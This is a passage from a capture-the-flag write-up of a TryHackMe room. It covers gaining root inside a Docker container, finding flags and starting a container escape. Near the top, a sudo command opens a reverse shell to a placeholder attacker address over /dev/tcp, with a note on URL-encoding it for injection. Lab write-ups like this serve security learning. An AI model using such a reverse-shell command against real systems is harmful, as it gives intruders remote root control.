 >Edit: It was after the fact I realised that I could have originally gained root access through my original shell with use of the following command if I had further enumerated for this information (& should be encoded as %26).
```bash
sudo env /bin/bash -c 'bash -i >& /dev/tcp/<AttackIP>/1234 0>&1'
  id
    uid=0(root) gid=0(root) groups=0(root)
```

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
With root access I started my search for loot.
```bash
ls /root
  flag3.txt
cat flag3.txt
    THM{***}
```
I'd found a flag in the `root` user's files however being that there was 4 in total, and I had only found the 3rd at this point, I took this as sign that there was a higher level to get to.
```bash
ls -la /
  -rwxr-xr-x   1 root root    0 Aug 23 23:29 .dockerenv
```
This was a file I had never seen before. I understood this as a part of the `Docker` application which hinted at the idea that the web application was running inside a docker container. This was also aided by the fact that we found an SSH service running on the IP address by no SSH server application appeared to be installed/running.
This was the first time I was dealing with containers, but I understood that I'd need to find a way to break out of the container to reach the true host system. As I searched the file system further, I found little to no references to `Docker` other than miscellaneous directories.

I spent a good amount of time trying container escape techniques I'd found online which would end up not being applicable to this target environment.
I dabbled with script base vulnerability scanners such as `CDK` and `Deepce`. While using `Linpeas`, I had spent some time reading through it's findings and eventually investigated the files of interest in the `/opt/` directory.
```bash
╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 root root 2949120 Aug 23 02:22 /opt/backups/backup.tar                                                                                                                                                                         
-rwxr--r-- 1 root root 69 Mar 10  2020 /opt/backups/backup.sh
```
Originally, I had glossed over these files and made the mistake of presuming that they were nothing but miscellaneous files. but and additional output of the scanner found that the script was run recently.
```bash
strings /opt/backups/backups.tar
  RUN echo "THM{***}" > /root/flag3.txt
  RUN echo "THM{***}" > /var/www/flag2_QMW7JvaY2LvK.txt
  $flag_1 = "THM{***}"
  (References to .git)
  (References to Docker)
```
```
cat /opt/backups/backups.sh
  tar cf /root/container/backup/backup.tar /root/container
```
